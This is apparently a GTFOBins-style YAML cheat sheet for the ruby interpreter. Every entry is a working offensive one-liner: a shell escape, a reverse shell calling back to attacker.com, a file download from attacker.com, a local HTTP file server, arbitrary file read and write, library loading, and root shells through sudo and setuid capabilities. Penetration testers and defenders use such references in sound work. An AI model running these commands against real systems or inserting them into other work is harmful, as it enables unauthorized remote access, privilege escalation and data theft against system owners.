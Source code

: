 functions:
  shell:
    - code: ruby -e 'exec "/bin/sh"'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "open-uri"; download = open(ENV["URL"]); IO.copy_stream(download, ENV["LFILE"])'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  library-load:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo:
    - code: sudo ruby -e 'exec "/bin/sh"'
  capabilities:
    - code: ./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
---
